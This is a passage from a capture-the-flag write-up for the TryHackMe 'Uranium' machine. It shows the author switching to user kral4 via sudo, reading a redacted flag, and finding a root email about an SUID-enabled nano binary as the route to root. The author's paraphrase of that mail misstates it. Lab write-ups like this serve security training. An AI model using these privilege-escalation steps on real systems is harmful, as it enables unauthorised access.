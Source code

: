 ```bash
hakanbey@uranium:~$ 
```

So we can now `sudo` into kral4 and read the flag!

```bash
hakanbey@uranium:~$ sudo -u kral4 /bin/bash
kral4@uranium:~$ id
uid=1001(kral4) gid=1001(kral4) groups=1001(kral4)
kral4@uranium:~$ cat /home/kral4/user_2.txt 
thm{[REDACTED]}
```

## Root

After using `LinPeas` I found the mail folder for our user, with one interesting mail on it.

```bash
kral4@uranium:/home/kral4$ cd /var/mail
kral4@uranium:/var/mail$ ls
hakanbey  kral4
kral4@uranium:/var/mail$ cat kral4 
From root@uranium.thm  Sat Apr 24 13:22:02 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
	by uranium (Postfix) with ESMTP id C7533401C2
	for <kral4@uranium.thm>; Sat, 24 Apr 2021 13:22:02 +0000 (UTC)
Message-ID: <841530.943147035-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Sat, 24 Apr 2021 13:22:02 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-992935.514616878"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-992935.514616878
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

I give SUID to the nano file in your home folder to fix the attack on our  index.html. Keep the nano there, in case it happens again.

------MIME delimiter for sendEmail-992935.514616878--
```
What we know so far, the `root` user sent an email to `kral4` saying that "if we get an attack again, I will give `SUID` to the `nano` binary in your home folder".
